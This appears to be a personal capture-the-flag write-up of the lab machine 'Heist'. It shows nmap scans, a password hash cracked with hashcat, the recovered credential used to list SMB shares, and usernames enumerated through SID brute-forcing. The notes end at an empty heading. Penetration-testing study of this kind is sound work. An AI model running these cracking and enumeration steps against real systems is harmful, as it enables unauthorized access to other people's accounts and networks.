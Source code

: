 # Common Enumeration
## NMAP
All ports scan without service version and os detection.
```bash
❯ sudo nmap -p- --min-rate 10000 -oA nmap/heist 10.10.10.149
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:01 PKT
Nmap scan report for 10.10.10.149
Host is up (0.18s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.85 seconds
```
Detected ports scan with service version and os detection.
```bash
❯ sudo nmap -p80,135,445,5985 -A -oA nmap/heist_version 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:06 PKT
Nmap scan report for 10.10.10.149
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-10T19:06:32
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   112.89 ms 10.10.14.1
2   113.05 ms 10.10.10.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.96 seconds
```
## Logging in as guest user
Logging in as guest gives config.txt file.
![[Pasted image 20210711013543.png]]
This file contains hash `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` which when cracked using hashcat gives `stealth1agent` using command `hashcat -m 500 hash.hash /content/drive/MyDrive/rockyou.txt`.
http://10.10.10.149/issues.php webpage has a user `Hazard` which can be used with cracked hash to access shares of user `Hazard`.
![[Pasted image 20210711055724.png]]
`smbmap` can be used to know the shares of `Hazard` user.
```bash
❯ smbmap -H 10.10.10.149 -u Hazard -p stealth1agent
[+] IP: 10.10.10.149:445        Name: 10.10.10.149
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
Found some more users via Impacker module lookupsid.py.
```bash
❯ python3 /home/kali/.local/bin/lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
#



